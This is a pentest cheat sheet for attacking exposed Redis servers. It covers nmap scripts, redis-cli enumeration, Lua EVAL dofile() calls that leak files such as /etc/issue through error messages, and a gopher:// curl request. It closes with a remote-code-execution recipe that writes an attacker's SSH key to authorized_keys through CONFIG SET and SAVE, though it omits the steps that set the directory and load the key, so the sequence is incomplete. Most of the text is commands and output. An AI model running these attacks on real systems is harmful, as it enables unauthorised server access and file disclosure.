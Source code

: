 # Redis Enumeration Tools

## Nmap Enumeration

```
$ ls -lh /usr/share/nmap/scripts | grep redis
-rw-r--r-- 1 root root 2.8K Oct 12 09:29 redis-brute.nse
-rw-r--r-- 1 root root 6.9K Oct 12 09:29 redis-info.nse
```

```
$ nmap x.x.x.x -v -p 6379 --script=exampleScript1.nse,exampleScript2.nse
```

## Manual Connnection

```
$ telnet x.x.x.x 6379 
```

## echo test

```
$ telnet x.x.x.x 6379                                
Trying x.x.x.x...
Connected to x.x.x.x.
Escape character is '^]'.
echo test
$4
test
echo testing123
$10
testing123
echo "test"
$6
"test"
```

## redis-cli

```shell
> redis-cli -h x.x.x.x
x.x.x.x:6379> info                                  
# Server                                                 
redis_version:2.6.14                                     
redis_git_sha1:00000000                                  
redis_git_dirty:0                                        
redis_mode:standalone                                    
os:Linux 4.4.0-21-generic x86_64                                                                                  
arch_bits:64                                             
multiplexing_api:epoll                                   
gcc_version:5.3.1                                        
process_id:758                                           
run_id:ccdee3d16473ba7714fd06abd555f7dbaac5da3f                                                                   
tcp_port:6379                                            
uptime_in_seconds:1249993                                
uptime_in_days:14                                        
hz:10                                                    
lru_clock:312404 
```

Other enumeration commands:
`CONFIG GET pidfile`
`CONFIG GET dir`
`CONFIG GET dbfilename`
`CONFIG GET logfile`

## lua scripts

Redis can execute sandboxed Lua scripts through the "EVAL" command. `dofile()` is a command that can be used to enumerate files and directories; in older Redis version it is allowed by the sandbox.

Within redis-cli:
`EVAL "dofile('/var/')" 0`
- should return something like: `(error) ERR Error running script (call to f_de02e3f8f35b9def4742c4d51dd5b0e3e4b033e5): cannot read /var/: Is a directory ` confirming the directory exists. If not, the error would be "no such file or directory"

If the Lua script is syntactically invalid or tries to set global variables, some content of the target file will be leaked through the error messages. 

Examples:

```
EVAL "dofile('/etc/issue')" 0
(error) ERR Error running script (call to f_8a4872e08ffe0c2c5eda1751de819afe587ef07a): /etc/issue:1: '=' expected near '16.04' 
```

and

```
EVAL "dofile('/etc/lsb-release')" 0
(error) ERR Error running script (call to f_d486d29ccf27cca592a28676eba9fa49c0a02f08): /etc/lsb-release:1: Script attempted to access unexisting global variable 'Ubuntu' 
```

That gives us the info we're likely dealing with an ubuntu 16.04 machine. 

You can also interact with redis with curl and gopher:

```
# curl gopher://x.x.x.x:6379/_CONFIG%20GET%20dir --max-time 1
```

## Remote Code Execution

Source: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

Generate an ssh key:

```
$ ssh-keygen -t rsa -C "crack@redis.io"
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt
```

Connect to redis and find a user directory with .ssh directory:

```shell
redis-cli -h x.x.x.x
x.x.x.x:6379> EVAL "dofile('/home/')" 0
(error) ERR Error running script (call to f_351f13c20f479b8ac8bde46fdc9b831d3b093b44): @user_script:1: cannot read /home/: Is a directory
x.x.x.x:6379> EVAL "dofile('/home/user/.ssh')" 0
(error) ERR Error running script (call to f_1508eef1e3b382e49753c37a8f507f0eb65ab351): @user_script:1: cannot read /home/user/.ssh: Is a directory 
```

Then write the authorized keys file and save:

```shell
x.x.x.x:6379> config set dbfilename "authorized_keys"
OK
x.x.x.x:6379> save
OK
```

Then connect via ssh:

```shell
ssh -i id_rsa user@x.x.x.x
```